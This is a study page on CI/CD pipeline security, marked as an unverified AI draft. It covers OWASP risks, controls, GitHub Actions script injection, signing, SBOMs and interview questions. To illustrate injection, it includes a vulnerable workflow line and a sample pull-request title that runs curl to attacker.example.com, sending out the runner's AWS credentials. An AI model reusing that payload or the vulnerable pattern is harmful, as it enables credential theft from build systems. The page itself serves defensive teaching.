

# Pipeline security

> **Status: AI draft, 2026-11-16.** Not yet verified by me. Written from the OWASP, GitHub, SLSA and Sigstore documentation; nothing was run.

## In one line

A pipeline holds the keys to production, so treat it as a production system: short-lived least-privilege credentials, secrets never printed or given to untrusted code, locked third-party actions, no untrusted input in shell commands, reviewed changes only, isolated runners, and signed artifacts.

## The plain idea

Attackers who want your production systems do not need to break into production if they can change what the pipeline deploys, or read the credentials it holds. A pipeline runs code from many sources (your repository, pull requests from strangers, third-party actions, dependencies' install scripts) with powerful permissions. Every one of those is a way in.

OWASP's Top 10 CI/CD Security Risks names the patterns: insufficient flow control, weak identity and access management, dependency chain abuse, poisoned pipeline execution, insufficient pipeline-based access controls, poor credential hygiene, insecure configuration, ungoverned third-party services, missing artifact integrity checks, and insufficient logging.

## How it works

### Where attacks enter



### Controls

| Risk | Control |
|---|---|
| Long-lived cloud keys in CI | OIDC with roles pinned to repository, branch or environment ([OIDC from pipelines to AWS](oidc-to-aws.md)) |
| One pipeline can do everything | One role per pipeline and purpose; plan roles read-only; deploy roles only from protected environments |
| Secrets leaking into logs | Never `echo` them; masking only catches exact values, not transformed ones (base64, substrings, JSON); write them to files with tight permissions or pass through environment variables |
| Secrets reaching untrusted code | No secrets for fork pull requests; never run pull request code under `pull_request_target`; scope secrets to environments ([GitHub Actions in depth](github-actions-in-depth.md)) |
| Compromised third-party action or plugin | Lock to exact commits (workflow dependency lockfile, or full SHAs); review updates; fewer, well-maintained dependencies |
| Script injection | Never put `${{ github.event.* }}` text directly into `run:`; pass it through an environment variable and quote it |
| Unreviewed changes deploying | Protected branches, required reviews, required status checks, CODEOWNERS for pipeline files ([Remotes, pull requests and access](../git/remotes-and-collaboration.md)) |
| Persistent or shared runners | Ephemeral runners; separate pools by trust level; no self-hosted runners for public repositories |
| Tampered artifacts | Build once, sign, attach provenance and an SBOM, verify before deploy |
| No audit trail | Keep CI logs and cloud audit logs (CloudTrail) linked to commits and runs ([CloudTrail, Athena and Config](../aws-services/cloudtrail-and-config.md)) |

### Script injection, concretely

```yaml
# Vulnerable: the title is pasted into the script before the shell runs it
- run: echo "Checking ${{ github.event.pull_request.title }}"

# Safer: the title arrives as data in an environment variable
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: echo "Checking $TITLE"
```

A pull request titled `x"; curl https://attacker.example.com/$(cat ~/.aws/credentials | base64) #` turns the first version into a command that sends credentials away. GitHub's own guidance is to use an intermediate environment variable.

### Provenance, SBOM and signing

- **SBOM** (software bill of materials): the list of components inside an image or build, in a standard format such as CycloneDX or SPDX. It lets you answer "are we affected?" when a new vulnerability appears ([Registries and image security](../containers/registries-and-image-security.md)).
- **Provenance**: a signed statement of how an artifact was built (which repository, commit, workflow and builder). SLSA defines levels of increasing assurance.
- **Signing**: Sigstore's cosign signs images, often keyless with the CI's OIDC identity; GitHub artifact attestations do the same for artifacts built in Actions.
- **Verification**: an admission policy in the cluster rejects images that are unsigned or not built by the expected workflow ([CRDs, operators and admission webhooks](../kubernetes/crds-and-operators.md)).

## A concrete example

Hardening a service's GitHub Actions setup:

1. Replace the stored AWS key with OIDC: a read-only role for pull requests, a deploy role trusted only by the `production` environment.
2. `permissions:` default `contents: read`; jobs request more only where needed.
3. Lock all third-party actions; Dependabot proposes updates; CODEOWNERS requires the platform team to review changes under `.github/`.
4. Move every `${{ github.event... }}` use in `run:` into `env:`.
5. Build the image once, generate an SBOM, sign it and attach provenance; the cluster's admission policy verifies the signature before pods start.
6. Secret scanning (gitleaks) in pull requests and in pushes ([Quality and security gates](quality-and-security-gates.md)).

## Why not just...?

- **...rely on log masking for secrets?** It catches only the exact string. Any transformation (encoding, splitting, an error message that quotes part of it) leaks it. Do not print secrets at all.
- **...trust popular actions because many people use them?** Popular actions are exactly what attackers compromise to reach many pipelines at once. Lock versions and review changes.
- **...give CI administrator access to keep pipelines working?** Then anyone who can change a workflow file, or any compromised dependency, has administrator access. Least privilege per pipeline.

## Commands to know

| Command | What it does |
|---|---|
| `gitleaks git --redact` | Scan Git history for committed secrets (this site's pre-push hook does this). |
| `trivy image --format cyclonedx --output sbom.json <image>` | Generate an SBOM for an image. |
| `cosign sign <image>@<digest>` | Sign an image (keyless with OIDC in CI). |
| `cosign verify <image>@<digest> --certificate-identity ... --certificate-oidc-issuer ...` | Verify who signed it. |
| `gh attestation verify <artifact> --owner <org>` | Verify a GitHub artifact attestation. |
| `grep -rn 'github.event' .github/workflows/` | Find places to check for script injection. |

## How it breaks

| Symptom | Layer | Check | Likely cause |
|---|---|---|---|
| Secret found in a public log | Credential hygiene | The step that printed it | Echoed, transformed, or printed by a tool's debug output |
| Unexpected deploy from a branch | Flow control | Branch protection, OIDC trust `sub` | Deploy role trusted any branch |
| Workflow behaves differently overnight | Dependencies | `uses:` references | Unlocked action tag moved |
| Secrets exfiltrated via a fork pull request | Poisoned pipeline execution | Trigger type and checkout | `pull_request_target` running untrusted code |
| Cluster runs an image nobody built in CI | Artifact integrity | Admission policy, signatures | No signature verification |

## Interview questions

**1. Why is the CI/CD pipeline an attractive target?**

<details markdown="1">
<summary>Answer</summary>

- It holds credentials to production, registries and cloud accounts.
- It runs code from many sources: pull requests, third-party actions, dependencies.
- Compromising it means changing what is deployed, without touching production directly.

</details>

**2. What is poisoned pipeline execution?**

<details markdown="1">
<summary>Answer</summary>

- An attacker changes code or configuration that the pipeline executes (build scripts, Makefiles, workflow files) through a pull request or branch.
- If the pipeline runs it with secrets, the attacker gets them.
- Defences: no secrets for untrusted triggers, reviews before privileged runs, isolated runners.

</details>

**3. How do you prevent script injection in GitHub Actions?**

<details markdown="1">
<summary>Answer</summary>

- Never interpolate untrusted event fields (titles, branch names, bodies) directly into `run:`.
- Pass them through `env:` and quote the variable in the shell.
- Prefer actions that take the value as an input over inline scripts.

</details>

**4. How should secrets be handled in pipelines?**

<details markdown="1">
<summary>Answer</summary>

- Prefer no secrets: OIDC for cloud access.
- Scope the rest to environments and jobs; never echo them; remember masking only matches exact values.
- Rotate on any suspicion; scan for leaked secrets.

</details>

**5. What are SBOMs, provenance and signing for?**

<details markdown="1">
<summary>Answer</summary>

- SBOM: what is inside an artifact, to answer "are we affected?" quickly.
- Provenance: how and where it was built.
- Signing and verification: only artifacts from the trusted pipeline can run.

</details>

**6. A popular third-party action was compromised yesterday. What do you do?**

<details markdown="1">
<summary>Answer</summary>

- Find every workflow using it and which versions ran since the compromise.
- Rotate any secrets those runs could reach; check cloud audit logs for misuse.
- Lock to a known-good commit, or remove the action; adopt lockfiles or SHA pinning everywhere.

</details>

## Try it

1. Run `grep -rn 'github.event' .github/workflows/` in a repository you work on and check each hit for injection.
2. List every `uses:` in this repository's workflow and decide which ones you would lock first.
3. Write the minimal `permissions:` for a job that only runs tests, and for one that comments on a pull request.

## Zoom out

Pipeline security joins identity (OIDC, least privilege), supply chain (dependencies, signing) and change control (reviews, protected branches). The same ideas protect the cluster side through admission policies and image scanning ([Pod security](../kubernetes/pod-security.md), [Vulnerability and patch management](../security/vulnerability-and-patch-management.md)).

## Sources

- [OWASP: Top 10 CI/CD Security Risks](https://owasp.org/projects/top-10-cicd-security-risks)
- [GitHub Docs: secure use reference](https://docs.github.com/en/actions/reference/security/secure-use)
- [GitHub Docs: artifact attestations](https://docs.github.com/en/actions/concepts/security/artifact-attestations)
- [SLSA: security levels](https://slsa.dev/spec/v1.0/levels)
- [Sigstore: signing with cosign](https://docs.sigstore.dev/cosign/signing/overview/)
- [CycloneDX](https://cyclonedx.org/)
